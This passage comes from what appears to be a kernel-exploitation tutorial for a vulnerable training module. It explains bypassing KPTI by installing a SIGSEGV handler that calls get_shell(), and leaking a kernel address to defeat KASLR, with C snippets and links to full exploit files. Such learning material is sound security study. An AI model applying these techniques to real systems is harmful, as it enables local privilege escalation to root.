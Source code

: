 You can read [here](https://www.man7.org/linux/man-pages/man7/signal.7.html) for more information about signals. So how can we use signals to bypass KPTI? We all know that our exploit in [#Exploit: kROP](#exploit-krop-bypass-smep-smap-with-no-kpti-no-kaslr) will cause a SIGSEGV when we try to execute it in KPTI enabled kernel. And note that the segmentation fault (SIGSEGV) is just a userland thing, not from kernel. So what can stop us from registering a signal handler for SIGSEGV and will call `get_shell()` function when it is triggered?

```c
#include <signal.h>

struct sigaction sigact;
void register_sigsegv()
{
    logInfo("Registering SIGSEGV handler");
    sigact.sa_handler = get_shell;
    sigemptyset(&sigact.sa_mask);
    sigact.sa_flags = 0;
    sigaction(SIGSEGV, &sigact, (struct sigaction *)NULL);
}
```

And here is my full [exploit](./kpti/exploit_signal_handler.c) code for this technique.

## Avoiding KASLR

So in the case the kASLR is enabled, we first need to find a way to leak it. The overflow bug also in `module_read` function. So we can use that to leak the kernel address that available after the save RIP

```c
    char buf[0x500];
    memset(buf, 'A', 0x480);
    read(fd, buf, 0x410);
    uint64_t leaked_address = *(uint64_t *)&buf[0x408];
    uint64_t kbase = leaked_address - 0x13d33c; // 0xffffffff8113d33c-0xffffffff81000000 = 0x13d33c
```

Everything is the same as previous exploit, but we need to `kbase + offset` to get the real address of the functions and gadgets we need for the ROP chain. So here is the full [exploit code](./kaslr/exploit.c).

## References

- https://www.felixcloutier.com/x86/iret:iretd:iretq
- https://www.felixcloutier.com/x86/sysret
- https://blog.wohin.me/posts/linux-kernel-pwn-01/
- https://0x434b.dev/dabbling-with-linux-kernel-exploitation-ctf-challenges-to-learn-the-ROPes/
- https://breaking-bits.gitbook.io/breaking-bits/exploit-development/linux-kernel-exploit-development
